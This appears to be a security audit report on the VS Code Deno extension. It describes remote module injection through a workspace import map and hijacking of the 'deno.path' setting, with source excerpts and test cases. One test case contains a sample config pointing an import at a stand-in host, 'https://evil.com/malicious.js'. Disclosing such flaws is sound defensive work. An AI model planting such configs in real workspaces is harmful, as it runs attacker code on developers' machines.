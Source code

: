 ## Vulnerability: Remote Module Injection via Malicious Import Map

- **Description:**
  - An attacker who can control a workspace’s configuration (for example, by providing a malicious deno.json, deno.jsonc, or import map file) could supply an import map that points to a malicious remote module.
  - When the extension triggers a caching operation (via commands such as “Deno: Cache” or when running tests, formatting, or linting), it passes the unsanitized configuration (including the import map URL) as command‑line arguments to the Deno CLI.
  - The Deno CLI then downloads—and later executes—the remote module pointed to by the import map.
  - This sequence lets an attacker inject and execute arbitrary code into the developer’s environment.

- **Impact:**
  - Arbitrary code execution on the developer’s workstation with their privileges.
  - Possible compromise of the development environment, data exfiltration, or lateral movement within the network.

- **Vulnerability Rank:** Critical

- **Currently Implemented Mitigations:**
  - The extension depends on VS Code’s trusted configuration system.
  - It passes configuration values (via `config.get("importMap")` or similar calls) directly to the Deno CLI without performing explicit sanitization.

- **Missing Mitigations:**
  - There is no validation or sanitization of remote URLs specified in the import map configuration.
  - No checks are performed to ensure that only trusted domains are used, nor are there any warnings to the user when a remote module is about to be fetched.
  - The Deno CLI invocation is not isolated or sandboxed.

- **Preconditions:**
  - An attacker must be able to control or inject a malicious Deno configuration file, import map file, or workspace settings (for example, via a compromised repository or through social engineering that leads a developer to open a modified workspace).
  - The developer must then enable the extension (or allow auto‑detection via an existing deno.json/deno.jsonc) so that these settings are read and passed on.

- **Source Code Analysis:**
  - In **client/src/debug_config_provider.ts** and **client/src/tasks.ts**, configuration values such as `"deno.importMap"` or `"deno.config"` are read using `config.get(…)` and then pushed into command‑line argument arrays without further inspection.
  - For example, when starting the Deno language server or executing a task, the extension constructs a runtime arguments array that includes the import map (if set) directly:
    ```ts
    if (settings.importMap) {
      args.push("--import-map");
      args.push(settings.importMap.trim());
    }
    ```
  - Similarly, the caching command (from **commands.ts**, e.g. in `cacheActiveDocument`) invokes the Deno CLI with URIs derived from the active document—if the workspace’s configuration were modified to include a malicious import map, then the Deno runtime would be forced to fetch and run associated remote code.

- **Security Test Case:**
  - **Step 1:** Create a test workspace that includes a malicious configuration file. For instance, craft a `deno.json` (or `deno.jsonc`) that specifies an import map with an entry such as:
    ```json
    {
      "imports": {
        "malicious/": "https://evil.com/malicious.js"
      }
    }
    ```
    Alternatively, have a separate import map file and set the `"deno.importMap"` property in the workspace settings to point to it.
  - **Step 2:** Open the test workspace in VS Code with the Deno extension enabled (or trigger workspace auto‑detection by having the configuration file at the workspace root).
  - **Step 3:** Use the command palette to run the “Deno: Cache” command (or trigger any operation that resolves remote modules).
  - **Step 4:** Monitor the network traffic and/or the Deno CLI’s output to see if it downloads a file from “https://evil.com/malicious.js”.
  - **Step 5:** Verify that the malicious module is fetched and, if possible, execute a harmless payload that demonstrates code execution.
  - A successful test confirms that unsanitized remote URLs from import maps are being passed directly to the Deno CLI.

---

## Vulnerability: Malicious Deno Executable Path Injection

- **Description:**
  - The extension reads the `"deno.path"` setting from the VS Code configuration (via a workspace’s settings.json or user settings) in order to locate the Deno executable.
  - If an attacker gains control over this configuration (for example, by including a tainted `.vscode/settings.json` file in the workspace), they could set `"deno.path"` to point to a malicious executable instead of the legitimate Deno binary.
  - As a result, when the extension starts the language server—or runs any Deno CLI subcommand—it will execute the attacker‑controlled binary.

- **Impact:**
  - Execution of a rogue executable under the developer’s privileges, potentially leading to arbitrary code execution, data compromise, or system takeover.

- **Vulnerability Rank:** Critical

- **Currently Implemented Mitigations:**
  - The extension obtains the Deno executable path using the VS Code configuration API and a relative‑path resolution check (in **client/src/util.ts**).
  - However, this resolution only ensures that relative paths are resolved against the active workspace folder; no checks are made to verify that the resolved executable is indeed the authentic Deno CLI.

- **Missing Mitigations:**
  - No validation or verification is performed against a known good version, digital signature, or checksum.
  - There is no mechanism to warn the user if the configured path differs markedly from the expected default installation.
  - There is a lack of sandboxing or isolation to limit the potential effect of running an untrusted binary.

- **Preconditions:**
  - An attacker must be able to supply a modified workspace configuration (for example, via a malicious repository commit or by tricking the developer into using a tainted settings.json).
  - The developer must open the workspace so that the extension reads the modified `"deno.path"` value.

- **Source Code Analysis:**
  - In the function **getDenoCommandPath()** (in **client/src/util.ts**), the extension retrieves the Deno CLI path by calling:
    ```ts
    const command = getWorkspaceConfigDenoExePath();
    ```
  - The helper function `getWorkspaceConfigDenoExePath()` simply returns the value of `config.get("path")` from the `"deno"` namespace.
  - If the returned path is not absolute, the code then resolves it relative to available workspace folders without performing any integrity or authenticity checks.
  - Later, in **commands.ts** (inside the `startLanguageServer` function), this (possibly malicious) path is used as the command for the LanguageClient’s server options, meaning that any process launched will execute that binary.

- **Security Test Case:**
  - **Step 1:** Create a test workspace that includes a `.vscode/settings.json` file. In this file, set the `"deno.path"` property to point to a controlled (but clearly distinguishable) “malicious” binary or script. For example:
    ```json
    {
      "deno.path": "./malicious-deno.sh"
    }
    ```
    where `malicious-deno.sh` is a script that logs its execution (or performs a harmless demonstration of code execution) instead of running the real Deno CLI.
  - **Step 2:** Place the malicious binary/script in the appropriate location relative to the workspace so that the relative‑path resolution in the extension picks it up.
  - **Step 3:** Open the test workspace in VS Code with the Deno extension enabled.
  - **Step 4:** Trigger a command that forces the extension to start (for example, use “Deno: Enable” or trigger a caching operation).
  - **Step 5:** Check the extension’s output channel and system process list (or use logging in the malicious script) to verify that the malicious binary was executed instead of the legitimate Deno CLI.
  - A positive result indicates that the extension is using the unsanitized `"deno.path"` setting without verifying its authenticity.
